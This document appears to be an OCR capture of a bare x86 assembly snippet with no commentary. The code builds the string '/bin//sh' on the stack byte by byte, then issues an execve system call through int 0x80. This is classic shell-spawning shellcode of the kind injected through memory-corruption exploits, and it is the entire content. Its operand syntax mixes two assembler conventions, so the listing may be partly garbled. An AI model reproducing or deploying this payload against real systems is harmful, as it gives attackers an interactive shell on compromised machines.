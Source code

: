 ```
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
mov    %cl,0x2f
add    %eax,%ecx
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
mov    %cl,0x2f
add    %eax,%ecx
push   %eax
nop
xor    %eax,%eax
mov    %cl,0x6e
add    %eax,%ecx
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
mov    %cl,0x69
add    %eax,%ecx
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
mov    %cl,0x62
add    %eax,%ecx
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
mov    %cl,0x2f
add    %eax,%ecx
push   %eax
nop
xor    %eax,%eax
mov    %ebx,%esp
mov    %ecx,%eax
mov    %edx,%eax
mov    %al,0xb
int    0x80
```